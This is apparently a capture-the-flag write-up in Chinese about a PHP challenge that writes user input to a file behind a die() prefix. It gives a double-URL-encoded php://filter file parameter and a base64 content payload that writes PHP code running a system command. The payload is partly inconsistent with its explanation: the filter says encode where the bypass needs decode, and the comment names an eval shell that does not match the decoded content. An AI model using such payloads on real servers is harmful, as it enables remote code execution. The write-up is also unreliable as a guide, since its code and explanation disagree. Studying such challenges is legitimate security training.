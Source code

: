 ```
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

php://filter/write&  加密编码

urldecode() 二次编码绕过，浏览器编码一次，代码编码一次

1、利用base64:

```
url编码2次：php://filter/convert.base64-encode/resource=a.php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%31%25%32%65%25%37%30%25%36%38%25%37%30
```

```
content=11PD9waHAgc3lzdGVtKCd0YWMgZionKTs/Pg==  //<?php @eval($_POST[a]);?>

前面的11是为了填充"<?php die('大佬别秀了');?>"

base64 4位4位解码，其中"<?php die('大佬别秀了');?>"解码的内容其实只有phpdie，所以需要再填充两位。
```

<img src=".\图片\Snipaste_2023-02-03_22-03-27.png" alt="Snipaste_2023-02-03_22-03-27" style="zoom:80%;" />
